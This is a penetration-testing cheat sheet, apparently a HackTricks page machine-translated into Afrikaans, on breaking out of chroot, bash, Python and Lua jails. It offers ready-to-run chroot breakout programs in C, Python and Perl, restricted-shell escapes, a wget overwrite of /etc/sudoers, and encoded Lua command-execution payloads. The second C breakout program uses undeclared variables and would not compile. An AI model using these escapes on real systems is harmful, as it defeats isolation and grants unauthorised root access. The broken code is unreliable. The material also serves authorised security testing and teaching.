 # Ontsnapping uit Jails

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **GTFOBins**

**Soek in** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **of jy enige binêre met "Shell" eienskap kan uitvoer**

## Chroot Ontsnappings

Van [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Die chroot-meganisme is **nie bedoel om te verdedig** teen opsetlike inmenging deur **bevoorregte** (**root**) **gebruikers** nie. Op die meeste stelsels stapel chroot-kontekste nie behoorlik nie en chrooted programme **met voldoende voorregte kan 'n tweede chroot uitvoer om uit te breek**.\
Gewoonlik beteken dit dat jy root moet wees binne die chroot om te ontsnap.

{% hint style="success" %}
Die **instrument** [**chw00t**](https://github.com/earthquake/chw00t) is geskep om die volgende scenario's te misbruik en uit `chroot` te ontsnap.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
As jy **root** binne 'n chroot is, kan jy **ontsnap** deur **nog 'n chroot** te skep. Dit is omdat 2 chroots nie saam kan bestaan nie (in Linux), so as jy 'n gids skep en dan **'n nuwe chroot** op daardie nuwe gids skep terwyl jy **buiten dit is**, sal jy nou **buiten die nuwe chroot** wees en dus in die FS wees.

Dit gebeur omdat chroot gewoonlik NIE jou werksgids na die aangeduide een skuif nie, so jy kan 'n chroot skep maar buite dit wees.
{% endhint %}

Gewoonlik sal jy nie die `chroot` binêre binne 'n chroot-jail vind nie, maar jy **kan 'n binêre saamstel, oplaai en uitvoer**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Gesteekte fd

{% hint style="warning" %}
Dit is soortgelyk aan die vorige geval, maar in hierdie geval **stoor die aanvaller 'n lêer beskrywer na die huidige gids** en dan **skep hy die chroot in 'n nuwe vouer**. Laastens, aangesien hy **toegang** het tot daardie **FD** **buite** die chroot, het hy toegang daartoe en hy **ontsnap**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD kan oor Unix Domain Sockets oorgedra word, so:

* Skep 'n kind proses (fork)
* Skep UDS sodat ouer en kind kan praat
* Voer chroot uit in die kind proses in 'n ander gids
* In die ouer proses, skep 'n FD van 'n gids wat buite die nuwe kind proses chroot is
* Oordra na die kind proses daardie FD met behulp van die UDS
* Kind proses chdir na daardie FD, en omdat dit buite sy chroot is, sal hy die tronk ontsnap
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Mount die wortel toestel (/) in 'n gids binne die chroot
* Chroot in daardie gids

Dit is moontlik in Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Mount procfs in 'n gids binne die chroot (as dit nog nie is nie)
* Soek 'n pid wat 'n ander root/cwd inskrywing het, soos: /proc/1/root
* Chroot in daardie inskrywing
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Skep 'n Fork (kind proses) en chroot in 'n ander gids dieper in die FS en CD daarop
* Van die ouer proses, skuif die gids waar die kind proses in 'n gids voor die chroot van die kinders is
* Hierdie kind proses sal homself buite die chroot vind
{% endhint %}

### ptrace

{% hint style="warning" %}
* 'n Rukkie gelede kon gebruikers hul eie prosesse van 'n proses van hulself debugeer... maar dit is nie meer standaard moontlik nie
* Hoe dit ook al sy, as dit moontlik is, kan jy ptrace in 'n proses en 'n shellcode binne dit uitvoer ([sien hierdie voorbeeld](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumerasie

Kry inligting oor die tronk:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Pas PATH aan

Kyk of jy die PATH omgewingsveranderlike kan aanpas
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Gebruik vim
```bash
:set shell=/bin/sh
:shell
```
### Skep skrip

Kontroleer of jy 'n uitvoerbare lêer kan skep met _/bin/bash_ as inhoud
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Kry bash vanaf SSH

As jy via ssh toegang verkry, kan jy hierdie truuk gebruik om 'n bash-skal te voer:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Verklaar
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Jy kan byvoorbeeld die sudoers-lêer oorskryf
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Ander truuks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Dit kan ook interessant wees om die bladsy te kyk:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Truuks oor om uit python jails te ontsnap op die volgende bladsy:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Op hierdie bladsy kan jy die globale funksies vind waartoe jy toegang het binne lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval met opdrag uitvoering:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Sommige truuks om **funksies van 'n biblioteek te bel sonder om punte te gebruik**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Lys funksies van 'n biblioteek:
```bash
for k,v in pairs(string) do print(k,v) end
```
Let daarop dat elke keer wanneer jy die vorige een-liner in 'n **ander lua omgewing uitvoer, die volgorde van die funksies verander**. Daarom, as jy 'n spesifieke funksie moet uitvoer, kan jy 'n brute force aanval uitvoer deur verskillende lua omgewings te laai en die eerste funksie van die le biblioteek aan te roep:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Kry interaktiewe lua-skal**: As jy binne 'n beperkte lua-skal is, kan jy 'n nuwe lua-skal (en hopelik onbeperk) kry deur te bel:
```bash
debug.debug()
```
## Verwysings

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Skyfies: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekening planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
